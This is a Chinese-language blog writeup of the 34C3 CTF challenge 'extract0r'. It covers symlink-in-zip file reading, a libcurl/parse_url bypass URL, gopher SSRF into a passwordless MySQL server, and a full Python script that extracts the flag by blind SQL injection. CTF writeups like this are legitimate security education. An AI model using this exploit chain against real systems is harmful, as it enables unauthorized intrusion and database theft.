




+++
date = 2022-09-27T15:38:53+08:00
title = "[补番]34c3 extrac0tr writeup"
description = ""
slug = ""
authors = []
tags = []
categories = []
externalLink = ""
series = []
+++
每个月定期补一些老题目，记录一下。这题算是老题新做吧，最后一步自己的小思路貌似在网上没有找到一样的，嘿嘿。

第一步，上传symlink，列目录读文件

题目通过url下载一个zip文件，然后解压到指定目录。通过上传一个打包了symlink文件的zip，解压后就可以用这个symlink遍历目录，实现任意文件读。

- 在/home/extract0r目录下发现flag位置，在mysql数据库里，并且发现数据库的`m4st3r_ov3rl0rd`用户有读flag表的权限，此用户没有设置密码
- 在/var/www/html目录下读到源码

> 知识点：linux下的symlink文件可以打包到zip里，解压后可以通过symlink文件进行目录遍历

> 障碍点：这里想着直接通过读取mysql数据库文件的方式拿flag，发现目录遍历没有遍历出mysql所在的目录。然后自己本地起一个mysql服务发现，mysql的目录默认对于非mysql用户和组的用户没有可读权限，想想这也是合理的。

第二步，通过源码得知题目用php自带的curl函数发起请求，底层调用libcurl的函数，libcurl这个库存在很多冗余写法，很容易绕过php的parse_url的过滤。这一步就考虑利用curl的gopher协议进行ssrf，其中绕过的payload如下

```
http://foo@[cafebeef.cf]:foo@github.com:3306/
```
> 知识点：libcurl非常宽松，有很多公开的和未公开的绕过姿势。

第三步， 内网只有本地一个mysql，只能考虑mysql的无交互ssrf。

原本的印象是mysql这种需要交互的协议无法ssrf，这题考点就是无密码的mysql也是可以ssrf的。

于是本地拉起一个mysql，设置一个无密码用户和flag表，进行一次查询flag的sql语句，用wireshark把包dump下来。

tips: mysql客户端指定ssl-mode可以强制mysql不使用tls通信

```
echo 'select flag from flag.flag;' | mysql -h 127.0.0.1 --ssl-mode=DISABLED -um4st3r_ov3rl0rd
```

wireshark打开如下



发现客户端发了4个包

- 第1次发送登录请求，服务端返回Response OK
- 由于需要登录的用户不需要密码，第2个包就直接发送sql指令过去了，没有challenge的过程



把这个payload构造一下然后利用ssrf发送给mysql就可以执行任意sql语句了。



看到github上一种解法是在sql语句的返回中构造一个合法的zip把flag的内容包含到一个文件中，然后借助题目的解包功能拿到flag，或者是时间盲注。但我觉得这两种都比较耗费时间。注意题目在判断curl返回后有很多逻辑，看了一下是可以根据这个逻辑进行盲注的。我们可以在sql的返回中插入一个zip文件流，这里可以插入一个空的zip文件

```bash
root@be498edb0379:/# xxd 1.zip
00000000: 504b 0506 0000 0000 0000 0000 0000 0000  PK..............
00000010: 0000 0000 0000                           ......
root@be498edb0379:/#
```

这样根据代码逻辑，检测到zip，就正常返回，没有检测到zip，就输出`Archive's size 0 not supported`，这样就可以进行逻辑盲注。下面的图片有错误，一个空的zip文件的完整十六进制表示是`504b0506000000000000000000000000000000000000`



## # payload

```python
#!/usr/bin/env python
# -*- coding=utf-8 -*-
import binascii
from urllib.parse import quote_plus

import requests


def build_payload(sql):
    auth_p = "ad00000185a2bf01000000010800000000000000000000000000000000000000000000006d34737433725f6f7633726c30726400006d7973716c5f6e61746976655f70617373776f72640065035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404333630370f5f636c69656e745f76657273696f6e06352e372e3235095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c"
    sql_p = "{}00000003{}"
    close_p = "0100000001"

    l = hex(len(sql) + 1)[2:]
    sql = binascii.hexlify(sql.encode()).decode()
    sql_s = sql_p.format(l, sql) # wired bug
    payload = auth_p + sql_s + close_p
    payload = bytes.fromhex(payload)
    payload = quote_plus(payload).replace("+", "%20")

    host = "http://127.0.0.1:1342?url="
    cmd = "gopher://a@[cafebeef.cf]@google.com:3306/_" + payload
    cmd = quote_plus(cmd)
    return host + cmd

def main():
    flag = ""
    for k in range(1, 33):
        for i in range(32, 127):
            sql = 'select if((select ascii(substr((select flag from flag.flag),{},1)))={},unhex("504b0506000000000000000000000000000000000000"),2333)'.format(k, i)
            p = build_payload(sql)
            r = requests.get(p)
            # print(r.text)
            if 'Done' in r.text:
                flag += chr(i)
                print("[*] flag=" + flag)
                break

main()
```

```bash
...
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_S
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_SS
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_SSR
[*] flag=34C3_you_E1tr4cte6_t[e_unExtract0ble_plUsDyou_knoW_s0me_SSRF
```

> 知识点：zip协议扫描是从zip尾签名开始的，7z的实现遵循了zip协议，所以mysql协议开头的字符不影响zip文件的读取和解压。

> 障碍点：需要交互的服务无法ssrf的意思，本质是ssrf无法动态的构造服务交互所需要的数据包，而如果这种数据包是我们已知的，那么ssrf也可以对需要交互的服务进行攻击。


